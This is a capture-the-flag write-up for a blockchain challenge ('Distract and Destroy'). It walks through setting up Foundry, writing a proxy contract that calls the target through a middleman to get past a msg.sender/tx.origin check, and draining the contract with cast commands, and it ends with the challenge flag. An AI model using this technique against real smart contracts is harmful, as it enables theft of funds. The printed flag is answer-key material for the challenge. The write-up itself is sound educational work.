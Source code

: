 # CHALLENGE - DISTRACT AND DESTROY

IP: 94.237.57.59

Challenge Type: Blockchain

---

## INSTALLATION

- In the zip downloaded there are two files `Setup.sol` and `Creature.sol`
- They are Solidity scripts. The first create the creature the second is the creature
- The goal is to attack the creature doing 1000 damage and then loot the victim
- First thing first, we need to install `foundry` tool to interact with the blockchain
- Go to [https://book.getfoundry.sh/getting-started/installation](https://book.getfoundry.sh/getting-started/installation)
- This will install foundry along with Rust tools such as `cargo`
- To make use of foundry utils we need change the `PATH` variable

```bash
$ echo "export PATH=/home/{user}/.foundry/bin:$PATH" >> /home/{user}/.bashrc
$ source /home/{user}/.bashrc
```

- Notice that it is possible that current version of foundry mismatch the version of the challenge
- It this occurs you will need to install a specific version

```bash
$ echo "export PATH=/home/{user}/.cargo/bin:$PATH" >> /home/{user}/.bashrc
$ source /home/{user}/.bashrc
$ rustup default stable
$ foundryup -C cc5637a
```

---

## SOLVING THE CHALLENGE

- Now, you are ready to take down the challenge
- First, we need to setup the environment
- Inside the folder output of the unzip on the Challenge Archive, run

```bash
$ forge init --force
$ mv Creature.sol Setup.sol src/
```

- Now, let's open the website `{IP}:{port}`
- There is one important tab named `Connection` which gives all the values

```json
{
    "PrivateKey"    : "key",
    "Address"       : "our-address",
    "TargetAddress" : "target",
    "SetupAddress"  : "setup"
}
```

- Take note of this values, we will need it
- Here is a small explanation of what we need to do

> We need to attack the creature and remove 1000 HP. `Creature.sol` has two main
> functions `attack(uint256)` and `lott()`. For now, the most important one is
> `attack`. This is the source code of that function

```
function attack(uint256 _damage) external {
    if (aggro == address(0)) {
        aggro = msg.sender;
    }

    if (_isOffBalance() && aggro != msg.sender) {
        lifePoints -= _damage;
    } else {
        lifePoints -= 0;
    }
}
```

> As you can see the first time it is called it sets `aggro` to `msg.sender`
> which is the address that sent the message (call that procedure). Then it
> checks whether who is sent the message is also the transmitter, using the
> `_isOffBalance` function. It also checks whether the `aggro` is `msg.sender`.
> If the condition is true, the attack have success. In other words, the attack
> is successful if who sent the message is not the same that calls the procedure.

- To make the attack, we need to create a middleman that makes the attack
- This is the source code of a new file `Middle.sol` in the `src` folder.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Middle {
    Creature public creature;
    
    constructor (Creature _creature) {
        creature = _creature;
    }
    
    function f(uint256 _damage) external {
        creature.attack(_damage);
    }
}
```

- Now, we need to deploy the new smart contract using `forge`

```bash
$ forge create src/Middle.sol:Middle --private-key $key --rpc-url http://{IP}:{port}/rpc

...
Deployer: $our-address
Deployed to: $middle
...
```

- Now, we need to call the `attack` procedure given our address
- Essentially, we need `aggro` to be equal to `tx.origin`, or us.

```bash
$ cast send $target "attack(uint256)" 1000 --private-key $key \
    --rpc-url http://{IP}:{port}/rpc
```

- Now that `aggro = tx.origin`, or our address, we can call `f` of `Middle`
- Then Middle will call `attack` of the target
- However, since `msg.sender` is `Middle` but `aggro` is `tx.origin` (i.e. us), the attack is successful

```bash
$ cast send $middle "f(uint256)" 1000 --private-key $key \
    --rpc-url http://{IP}:{port}/rpc
```

- Finally, we can call the final method, i.e., `loot` to collect the loot

```bash
$ cast send $target "loot()" --private-key $key --rpc-url http://{IP}:{port}/rpc
```

- Visit the `http://{IP}:{port}/flag` page to obtain the flag

---

## FLAG

HTB{tx.0r1gin_c4n_74k3_d0wn_4_m0n5732}